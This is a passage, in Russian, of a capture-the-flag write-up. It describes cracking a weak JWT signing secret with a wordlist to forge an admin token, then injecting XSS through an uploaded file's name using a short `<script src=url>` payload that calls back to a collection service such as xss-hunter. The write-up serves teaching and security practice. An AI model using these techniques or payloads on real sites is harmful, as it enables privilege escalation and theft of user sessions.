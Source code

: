 Использовав `jwt_tool` можно попробовать подменить подпись токена на `None`. Но к сожалению данный способ не срабатывает. Попробуем перебрать пароль при помощи любого крупного словаря, например `rockyou.txt`:

![](https://imgur.com/IL3zwMw.png)

Отлично, секретный ключ, которым был подписан токен - это `secret`. Теперь мы можем перезаписать свой токен (опция `-T` в `jwt_tool`) и поставить поле `is_admin` равным `true`. Отправляем логин запрос с новым токеном и получаем флаг.

> В данном таске проэмулирована вполне реальная ситуация - когда разработчик сделал тестовые методы, но билд почему-то попал в продакшн и стал доступен извне. 

## 4. Anime advisor (2) (web)
### Условие:
```
Мой знакомый разрабатывает сайт "для своих". Я туда, конечно, заходить не собираюсь, но вы проверьте, достаточно ли он защищен.

P.S В данном задании два флага. (последний символ флага в данном задании - e)
```
http://109.233.56.93:5001
### Как решать?

Теперь обратим внимание на форму обратной связи:

![](https://imgur.com/mqElvuY.png)

В ней есть заголовок, тело и опциональная загрузка изображения. Попробовав засунуть `XSS` пейлоады в заголовок и тело (Админу они вероятно отображаются на какой-то специальной странице) получим ошибку, которая говорит нам о том, что спец-символы в этих полях не допускаются.

![](https://imgur.com/W6KfMj4.png)

Остается поиграться с файлом и тут два варианта:
1) Наличие какой-то уязвимости в рендере файла<br>
Тут потенциально может быть много вещей, но нет ничего, чтобы на них намекало. Простое > лучше сложного, да и я не люблю делать таски с уцуцугой. (Скорее всего файл просто отображается на странице админа)
> Во время соревнований были залиты довольно интересные файлы: `'getenv('FLAG').txt`, `A3DLIBS.dll`, `payload.html`, `hey.php.png` и даже `alpine.ova`)))
2) XSS в имени файла<br>
А вот о такой возможности часто забывают. В данном задании необходимо было сделать именно это. Единственным ограничением была длина имени файла - 60 символов. Благо html и js богаты на различные способы сделать XSS. Самым простым и коротким пожалуй является этот: `<script src=url></script>`. Ну а в url уже ваш адрес, на который должен прийти отстук ( сервисов, позволяющих сделать подобный url много, например `requestbin` и `xss-hunter`)

> Посмотреть на варианты XSS пейлоадов можно [тут](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

Отправив наш пейлоад получим отстук (я воспользовался сервисом `xss-hunter`):
